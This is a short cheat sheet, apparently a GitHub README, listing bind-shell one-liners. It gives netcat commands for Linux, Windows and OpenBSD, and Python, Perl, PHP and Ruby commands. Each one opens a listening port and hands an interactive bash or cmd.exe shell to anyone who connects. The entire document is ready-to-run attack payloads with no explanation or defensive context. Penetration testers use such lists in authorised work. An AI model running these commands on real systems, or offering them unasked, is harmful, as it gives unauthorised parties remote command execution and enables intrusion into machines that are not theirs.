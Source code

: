 # Bind Shell Cheet Sheet
A collection of bind shell. Bind Shell and Only Bind Shell "RS will be in another file"
will be add more later

## Netcat (netcat-traditional)
### linux
`nc -lvp 2222 -e /bin/bash`

### Windows
`nc.exe -nlvp 4444 -e cmd.exe`

### OpenBSD (netcat-openbsd)
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 2222 >/tmp/f`

## Python
`python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"`

## Perl
`perl -e 'use Socket;$p=2222;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'`

## PHP
`php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",2222);socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);socket_write($cl,$m,strlen($m));}}'`

## Ruby
`ruby -rsocket -e 'f=TCPServer.new(2222);s=f.accept;exec sprintf("/bin/bash -i <&%d >&%d 2>&%d",s,s,s)'`
